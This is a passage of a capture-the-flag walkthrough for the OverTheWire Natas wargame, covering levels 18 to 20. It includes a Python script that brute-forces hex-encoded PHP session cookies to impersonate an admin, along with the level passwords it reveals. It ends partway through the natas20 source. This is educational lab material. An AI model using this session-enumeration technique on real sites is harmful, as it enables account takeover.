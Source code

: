 This will give the admins cookie as 119. setting that as the cookie and reloading the page gives us the password

password : **4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs**

### <a id="19">natas19</a>

Here the source code is same as that of the previous one. But session IDs are no longer sequential.. 

When we look at the cookie its `3134312d68656c6c6f` decoding it with hex gives `141-hello`. here hello is the username I gave. So its just taking a number below 640 and appending it with the username and encoding it in hex as the cookie. We can write a code for this too

```python
import requests,binascii

url = "http://natas19.natas.labs.overthewire.org"
session = requests.Session()
leng=0
for i in range(0,640):
    Cookie=binascii.hexlify(bytes(str(i)+"-admin",'utf-8')).decode('utf-8')
    response = requests.get(url,auth=requests.auth.HTTPBasicAuth('natas19', '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs'),cookies={"PHPSESSID":Cookie})
    print("checking :",i)
    if ("You are an admin." in response.text):
        leng = i
        print("Cookie",Cookie)
        break
```

This gives the cookie as `3238312d61646d696e`. Setting that as the cookie gives us the password

password : **eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF**

### <a id="20">natas20</a>

source code :

```php+HTML
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas20", "pass": "<censored>" };</script></head>
<body>
<h1>natas20</h1>
<div id="content">
<?

function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas21\n";
    print "Password: <censored></pre>";
```